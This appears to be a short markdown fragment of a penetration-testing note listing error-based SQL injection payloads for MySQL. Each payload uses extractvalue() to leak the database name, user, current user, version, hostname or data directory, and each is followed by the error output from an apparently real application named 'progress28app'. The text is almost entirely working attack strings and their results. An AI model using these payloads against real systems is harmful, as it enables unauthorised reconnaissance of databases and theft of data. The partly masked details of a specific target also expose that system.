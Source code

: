* **Using database() Functions**

	 ```1'+AND+1=extractvalue(rand(),concat(0x3a,database()))--+```
	 
	 RESULT
	 
	 ```"sqlMessage":"XPATH syntax error: ':progress28app'"```
  

* **Using user() Functions**

	1'+and+1=extractvalue(rand(),concat(0x3a,user()))--+ 
	
	"sqlMessage":"XPATH syntax error: ':progress28app@172.x.x.28'"


* **Using current_user() Functions**

	1'+AND+1=extractvalue(rand(),concat(0x3a,current_user()))--+
	
	"sqlMessage":"XPATH syntax error: ':progress28@%'"


* **Using version() Functions**

	1'+and+1=extractvalue(rand(),concat(0x3a,version()))--+ 

	"sqlMessage":"XPATH syntax error: ':5.7.26-log'"


* **Using @@hostname Functions**

	1'+AND+1=extractvalue(rand(),concat(0x3a,@@hostname))--+
	
	"sqlMessage":"XPATH syntax error: ':ip-xx.x.x.xxx'"


* **Using @@datadir Functions**

	1'+AND+1=extractvalue(rand(),concat(0x3a,@@datadir))--+
	
	"sqlMessage":"XPATH syntax error: ':/p28dbdata/db/'"
